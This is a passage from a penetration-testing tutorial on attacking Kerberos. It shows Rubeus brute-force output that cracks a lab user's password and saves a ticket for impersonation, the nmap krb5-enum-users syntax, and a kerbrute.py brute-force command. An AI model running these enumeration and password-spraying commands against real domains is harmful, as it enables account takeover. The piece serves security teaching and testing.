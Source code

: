 	PS C:\Users\m0chan> .\Rubeus.exe brute /users:usernames.txt /passwords:pass.txt /domain:m0chanAd.local /outfile:brutepasswords.txt

	   ______        _
	  (_____ \      | |
	   _____) )_   _| |__  _____ _   _  ___
	  |  __  /| | | |  _ \| ___ | | | |/___)
	  | |  \ \| |_| | |_) ) ____| |_| |___ |
	  |_|   |_|____/|____/|_____)____/(___/

	  v1.4.1

	[+] Valid user => m0chan
	[+] Valid user => jamie
	[+] Valid user => jack
	[+] M0CHAN => jack:jack123
	[*] Saved TGT into jack.kirbi

The `brute` force module is really clever as if you crack a `Username` and `Password` combo it will automatically request a and save a `TGT` which you can inject into your current session to impersonate that user. But I will cover this later on when I discuss `Pass-The-Ticket` and `Kerberos Ticket Injection`

### [(L)](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#header-3)From Linux

Okay so surprisingly in my time and for the first time in this article I have actually had a easier experience enumerate Kerberos users from Linux and Brute forcing in comparison to Windows.

Let’s first talk about **nMap**

#### [(L)](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#header-4)nMap

I am sure we have all heard of nMap, it’s probably the most used InfoSec tool used. Period.

Now nMap has a really nice script that allows us to enumerate users with `krb5-enum-users` This is super useful as we do not to have access to the domain only access to the `KDC`

The syntax for `krb5-enum-users` is as follows

	nmap -verbose 4 -p 88 --script krb5-enum-users --script-args krb5-enum-users-realm='kerbrealm',userdb=user.txt <dc ip>

#### [(L)](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#header-4)kerbrute.py

There is a great script developed by `TarlogicSecurity` entitled `kerbrute.py` that uses Impacket Libaries to to brute force and enumerate `Kerberos` users.

*https://github.com/TarlogicSecurity/kerbrute*

	m0chan@kali:/scripts/> python kerbrute.py -domain m0chanAD.local -users usernames.txt -passwords pass.txt -outputfile foundusers.txt
